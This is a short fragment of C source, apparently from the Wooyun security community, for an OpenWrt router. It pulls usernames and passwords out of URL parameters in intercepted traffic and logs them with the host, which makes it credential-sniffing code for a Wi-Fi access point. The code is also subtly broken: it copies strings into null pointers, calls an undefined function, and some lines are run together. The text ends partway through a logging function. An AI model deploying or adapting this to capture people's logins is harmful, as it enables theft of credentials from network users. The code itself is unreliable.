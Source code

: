 ```
/*
    code by lxj616@wooyun
*/
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <stdio.h>
#include <unistd.h>

//Openwrt默认权限可以读写etc下文件
void get_basepath(char *basepath)
{
    FILE *fp1;
    fp1 = fopen("/etc/wooyunwifi/basepath.conf","r");
    fscanf(fp1,"%s",basepath);  
    fclose(fp1);
}

//解析URL中用户名和密码
void strip_pass(char *basepath,char *buffer,char *host)
{
    int i;
    int flag=0;
    char *user;
    char *pass;
    user=strstr(buffer,"user");
    pass=strstr(buffer,"pass");

    if(user&&pass)
    {
        user=strstr(user,"=")+1;
        pass=strstr(pass,"=")+1;

        for(i=0;user[i]!='\0'&&flag==0;i++)
        {
            if(user[i]=='&')
            {
                user[i]='\0';
                flag=1;
            }
        }
        flag=0;
        for(i=0;pass[i]!='\0'&&flag==0;i++)
        {
            if(pass[i]=='&')
            {
                pass[i]='\0';
                flag=1;
            }
        }
    }
    else 
    {
        strcpy(user,"unknown");     strcpy(pass,"unknown");     }   update_log(basepath,host,user,pass); } 
//写文本文件保存信息
void writeLog(char *path,char *user,char *pass)
{
```